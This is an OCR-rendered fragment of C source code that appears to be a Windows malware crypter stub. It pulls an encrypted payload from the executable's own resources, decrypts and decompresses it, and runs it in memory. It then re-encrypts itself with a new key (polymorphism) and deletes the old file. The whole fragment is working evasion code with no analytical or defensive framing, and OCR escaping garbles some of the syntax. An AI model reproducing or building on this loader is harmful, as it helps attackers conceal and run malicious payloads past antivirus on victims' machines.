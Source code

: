 ```
        free(fs);
        return FALSE;
    `}`
    // generate new key
    if (GenerateKey(fs) == FALSE) `{`
        Debug("Generate key error: %lun", GetLastError());
        free(fs);
        return FALSE;
    `}`
    // encrypt with new key
    if (Encrypt(fs) == FALSE) `{`
        Debug("Encrypt buffer error: %lun", GetLastError());
        free(fs-&gt;pKey);
        return FALSE;
    `}`
    // update resources
    if (UpdateResources(fs, szFileName) == FALSE) `{`
        free(fs-&gt;pKey);
        free(fs);
        return FALSE;
    `}`
    SelfDelete(szFileName);
    free(fs-&gt;pKey);
    free(fs);
    return TRUE;
`}`
int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd) `{`
    if (strstr(GetCommandLine(), "delete") != NULL) `{`
        while (DeleteFile("old.exe") == FALSE);
    `}` else `{`
        FileStruct *fs = ExtractPayload();
        if (fs == NULL) `{`
            Debug("Extract file error: %lun", GetLastError());
            return 1;
        `}`
        if (DecryptPayload(fs) == TRUE) `{`
            if (DecompressPayload(fs) == TRUE)
                //DropAndExecutePayload(fs, "test.exe");
                MemoryExecutePayload(fs);
        `}`
        free(fs-&gt;pBuffer);
        free(fs);
        CHAR szFileName[MAX_PATH];
        GetModuleFileName(NULL, szFileName, MAX_PATH);
        PolymorphPayload(szFileName);
    `}`
    return 0;
`}`
```
